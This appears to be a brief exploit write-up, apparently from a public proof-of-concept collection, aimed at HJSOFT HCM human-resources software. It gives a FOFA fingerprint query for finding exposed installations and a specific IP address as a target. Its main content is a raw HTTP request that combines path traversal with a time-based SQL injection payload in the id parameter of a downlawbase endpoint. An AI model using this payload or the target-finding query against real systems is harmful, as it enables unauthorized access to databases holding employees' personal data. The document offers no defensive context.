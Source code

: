 fofa:
```plane
app="HJSOFT-HCM"
```
http:// 114.116.131.33:8080/

```
GET /templates/attestation/../../selfservice/lawresource/downlawbase?id=11';waitfor+delay+'0:0:3'--+ HTTP/1.1
Host: 114.116.131.33:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: JSESSIONID=26251FB16CDFE4DB8BD2EB1FD8090E62; bosflag=hcm

```
![0c515e99-d11f-47a0-bad2-d1a9b39f56cf.png](images/0c515e99-d11f-47a0-bad2-d1a9b39f56cf.png)
![c9ba69d1-6c42-4391-a5c1-20887ec69b71.png](images/c9ba69d1-6c42-4391-a5c1-20887ec69b71.png)
